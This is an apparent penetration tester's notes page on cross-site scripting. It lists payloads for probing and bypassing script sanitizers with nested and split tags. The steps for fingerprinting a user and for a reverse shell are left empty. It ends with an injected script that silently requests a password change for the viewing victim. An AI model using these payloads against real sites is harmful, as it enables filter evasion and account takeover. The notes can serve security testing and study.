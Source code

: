 #### XSS

1. Test capabilities of sanitizing script

   ```bash
   # Try straight tags
   <script>alert(1)</script>
   
   # See if it catches first instance only
   <script><script>alert(1)</script></script>
   
   # See if it performs recursively
   <scr<script>ipt>alert(1)</scr</script>ipt>
   
   # Check order of santization
   <scr<object>ipt>alert(1)</script>
   ```

2. Once the write method is found, insert code to fingerprint the target user.

   ```bash
   
   ```

3. Then modify the code for a malicious payload for a return shell.

   ```bash
   
   ```

## Ideas

Cause Java to fetch a URL when the page is displayed

```java
<script>fetch('/settings?new_password=pass123');</script>
```